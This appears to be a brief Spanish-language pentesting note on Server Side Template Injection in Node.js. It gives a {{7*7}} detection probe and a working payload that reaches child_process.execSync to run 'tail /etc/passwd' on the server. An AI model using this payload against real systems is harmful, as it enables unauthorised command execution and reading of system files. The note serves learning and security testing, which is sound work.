 # Server Site Template Injection ❮❯

Cuando en la web nos muestra en su output el input que hemos ingresado 

Esto seria para **Node.js**
❯ **{{7\*7}}**  Colocamos esta expresion y si nos mutesra en el output 49 quiere decir que si es vulnerable a SSTI
❯ **{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}** Nos ayuda a injectar comandos 





